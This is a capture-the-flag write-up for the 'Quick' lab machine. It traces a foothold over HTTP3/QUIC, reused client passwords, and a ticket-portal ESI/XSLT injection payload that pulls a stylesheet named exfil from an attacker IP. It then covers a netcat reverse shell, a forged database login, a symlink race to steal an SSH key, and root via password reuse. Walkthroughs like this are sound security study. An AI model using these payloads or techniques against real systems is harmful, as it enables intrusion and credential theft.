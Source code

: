 * Quick
** Enumeration
** Foothold
   
refs:
 * https://www.contextis.com/us/blog/xslt-server-side-injection-attacks
 * https://www.gosecure.net/blog/2018/04/03/beyond-xss-edge-side-include-injection/
 * https://www.gosecure.net/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/
   
Getting a foothold requires finding the clues in the scans, seeing that UDP is running 443, and realizing that this implies HTTP3/QUIC. Firefox Nightly doesn't seem to work despite working http3 connections to other sites, so a fresh compiled ~curl~ gets it done.

After that, there are clear passwords in the pdfs provided on the client site, trying these against a few of the clients reveals that at least one has not changed their credentials.

** User

By manually issuing a POST request to raise a ticket, we can choose whatever ticket ID we like.
It just can't be a repeat -- however, apparently this check is bypassed when the ID is over 100 characters long.

Raising a ticket in the ticket portal
TKT-9999sdfsdaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbbbbcccccddddddeeeeffffgggghhhhiiiijjjkkkkjllllmmmmnnnnoo

~~~
TKT-9999sdfsdaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbbbbcccccddddddeeeeffffgggghhhhiiiijjjkkkkjllllmmmmnnnnoZZZZsdfsfffffffZ");
</script>

<body>
<esi:include src="http://10.10.16.100/fruits.xml" stylesheet="http://10.10.16.100/exfil12.xsl" />
</body>
~~~

Finally got a RCE script working, and when various reverse shells failed, executed a reverse shell in three steps:
 1. upload nc
 2. make it executable
 3. connect back with nc
    
USER: 017496d72f67978129be31f05ae34252

** Lateral Movement

Once in as ~sam~, poking around reveals we have access to another vhost site, ~printerv2~, and database creds. Logging into the site hard checks not for the password but for the srvadm email address, and the database doesn't have any uniqueness constraints, so:

~insert into users values ('me', 'srvadm@quick.htb', <elisa's hash>)~ works to get us in.

Once in we can send arbitrary data to a timestamped file, then have that file written to a socket.

The socket is a reverse listener, the data doesn't matter: what matters is a hard loop running in the directory where the file is written:
 * when a file appears, track its name
 * delete it
 * create a symlink with that same name against ~/home/srvadm/.ssh/id_rsa~

This works consistently because of a ~sleep(0.5)~ call in the printer code.

** Escalation

There's a lot of stuff without too many obvious hints, but poking around the logs in ~.cache/conf.d/printers.conf~ shows a http address that looks like it has basic http auth creds it in against yet another vhost, ~printerv3~. The vhost isn't interesting, but try the password out to see if we can ~sudo -l~. It doesn't work for ~srvadm~. But password reuse! It's ~root~'s password!

ROOT: 1a3f0892637f08f2193eaf250f6a351b
